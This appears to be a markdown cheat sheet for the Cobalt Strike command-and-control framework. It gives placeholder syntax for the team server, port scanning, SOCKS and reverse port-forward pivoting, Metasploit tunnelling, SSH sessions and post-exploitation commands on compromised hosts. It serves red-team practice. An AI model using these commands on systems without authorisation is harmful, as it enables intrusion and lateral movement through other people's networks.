 ``` ./teamserver <IP> <Password> [Path to Malleable C2 Profile] [Kill Date for Beacon Payloads - YYYY-MM-DD]``` - To start the Team Server
### Port Scanning ###
` portscan <hosts> <ports> <discover method: arp, icmp or none> <max nº of sockets open at once> `

### Proxy Pivoting ###
To go interactive: `sleep 0`.

#### Pivoting through SOCKS ####
* Tunnel traffic
   * Set up a SOCKS4 proxy server tunneling through the current Beacon
   * `socks <port>`
   * Use `socks stop` to kill the SOCKS proxy server

#### Tunneling Metasploit through Beacon ####
* Force the Metasploit Framework to use your SOCKS proxy server for connections. From msfconsole:
   * `setg Proxies socks4:127.0.0.1:<port>
   * `setg ReverseAllowProxy true`
* To stop pivoting - `unsetg Proxies`

#### Pivoting with ProxyChains ####
1. Start a SOCKS Proxy Server
2. Edit '/etc/proxychains.conf' to point to the server
3. Use `proxychains` to tunnel traffic

#### Reverse Pivoting ####
* Tunnel Traffic (Reverse)
   * Make the target listen on a port and tunnel the connection to another system
   * `rportfwd <listening port> <forward host> <forward port>`
   * Use `rportfwd stop` to stop
* Make sure to account for firewall on the target!

### Pivot Listeners ###
Way to turn a compromised system into a redirector that receives connections from the beacon payload. In CS: 'Beacon' > 'Pivoting' > 'Listener'.

### SSH Sessions ###
Can be used to upload, download, execute and pivot (and encrypted communication). They are useful because they're on the target already. 

* Use `dropbear SSH` if a custom-configured agent is desired.
* `ssh <target:port> <username> <password>` - To launch an SSH session with credentials
* `ssh-key <target:port> <username> <path>/<key>` - To launch an SSH session with key authentication

#### Post Exploitation in SSH Sessions ####
* `shell <command> <args>` - Run a command
* `sudo <password> <command> <args>` - Run a command with sudo
* `upload <local file path>`
* `download <file>`
* `socks 1234` - Start SOCKS pivoting
* `rportfwd <listening port> <forward host> <forward port>` - Reverse Port forward
* `connect <host> <port>` - Connect to a TCP Beacon
   * 'Session' > 'Pivoting' > 'Listener' - To create a Reverse TCP Beacon Pivot Listener

### Browser Privoting ###
Way to inherit a user's access to sites by relaying requests through their browser. Only available in IE.

`browserpivot <pid> x86` or 'Beacon' > 'Pivoting' > 'Browser Pivot'
